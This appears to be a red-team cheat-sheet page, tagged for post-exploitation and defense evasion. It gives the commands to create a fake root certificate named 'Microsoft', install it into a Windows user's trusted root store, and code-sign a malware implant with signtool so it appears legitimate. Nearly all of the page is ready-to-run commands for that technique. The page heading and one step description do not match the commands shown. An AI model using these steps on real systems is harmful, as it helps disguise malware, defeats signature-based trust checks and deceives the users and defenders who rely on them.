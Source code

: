 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - living-off-the-land
  - T1553-002
  - windows
---
```

# Sysinternals

Generate a authority certificate `CertUtil.exe`.

```
C:\> makecert.exe -r -pe -n "CN=Microsoft" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv MicrosoftCA.pvk MicrosoftCA.cer
```

Then install the root certificate

```
C:\> CertUtil.exe -user -addstore Root MicrosoftCA.cer

PS C:\> Import-Certificate -FilePath MicrosoftCA.cer -CertStoreLocation Cert:\CurrentUser\Root\
```

Create `.pfx` from the certificate.

```
C:\> makecert.exe -pe -n "CN=Microsoft Cert" -a sha256 -cy end -sky signature -ic MicrosoftCA.cer -iv MicrosoftCA.pvk -sv MicrosoftCert.pvk MicrosoftCert.cer

C:\> pvk2pfx.exe -pvk MicrosoftCert.pvk -spc MicrosoftCert.cer -pfx MicrosoftCert.pfx
```

Sign the binary implant with a certificate.

> [!INFO]
> You can run this in `wine64` through Linux.

```
C:\> signtool.exe sign /v /f MicrosoftCert.pfx /t http://timestamp.digicert.com/?alg=sha1 implant.exe

C:\> signtool.exe sign /fd sha256 /a /tr http://timestamp.digicert.com <payload_name>
```

---
## References

### Github

- [LazySign](https://github.com/jfmaes/LazySign)

### Microsoft

- [Microsoft: Windows SDK](https://developer.microsoft.com/en-us/windows/downloads/windows-sdk/)